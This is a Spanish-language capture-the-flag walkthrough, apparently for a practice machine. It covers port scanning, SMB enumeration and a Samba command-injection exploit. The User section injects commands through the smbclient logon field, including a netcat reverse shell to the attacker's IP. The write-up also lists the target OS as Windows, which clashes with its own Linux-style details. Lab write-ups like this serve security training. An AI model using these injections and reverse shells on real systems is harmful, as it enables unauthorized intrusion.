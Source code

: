 ## Summary

Tags: #Windows #SMB #nohup

- IP -> 10.10.10.3
- Ports -> TCP (21, 22, 139, 445, 3632), UDP (idk)
- OS ->  Windows 
- Services & Applications


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI

❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

FTP
```bash 
❯ nmap --script ftp-anon -p21 ❮Target IP❯            # ftp-enum = Escanea y mira si el usuario invitado 'Anonymous' esta habilitado
```

```bash 
❯ searchsploit vsftpd 2.3.4                       # Para ver si hay vulnerabilidades con la version proporcionada

❯ searchsploit samba 3.0.20                       # Para ver si hay vulnerabilidades con la version proporcionada y encontramos uno de Metasploit, por lo que procedemos a examinar el codigo. Enocntramos que emplean un 'nohup' en la sesion
```

Samba
```bash 
❯ smbclient -L ❮IP❯ -N                      # Para hacer la consulta con la sesion 'NULL'
❯ smbclient -L ❮IP❯ -N --option 'client min protocol = NT1'   # Para evitar el error que nos marca y asi listar los recursos compartidos de la red 
❯ smbclient //❮IP❯/tmp -N --option 'client min protocol = NT1' # Conectarse al recurso compartido 
```

## User

Para poder hacer este proceso, debemos de estar conectados al recurso SMB
```bash 
smb❯ logon "/=`nohup ping -c 1 10.10.14.3`"                # Usaremos este comando para enviarnos un ping y ver si tenemos ejecucion remota de comandos  

❯ tcpdump -i tun0 icmp -n                                  # Para capturar el paquete anterior 
```

```bash
smb❯ logon "/=`nohup whoami | nc 10.10.14.3`"              # Usaremos este comando para enviarnos la respuesta a nuestra IP por Netcat 

❯ nc -nlvp 443
```

```bash 
smb❯ logon "/=`nohup nc -e /bin/bash 10.10.14.3 443`"       # Usaremos este comando para enviarnos una Revershell por Netcat

❯ nc -nlvp 443
```


## Root

```bash 
# Tratamiento a la terminal 

❯ script /dev/null -c bash 
❯ Ctrl + z
	❯ stty raw -echo; fg
	❯ reset xterm

# Mejorar las proporciones de la terminal 
❯ stty rows 44 columns 184
```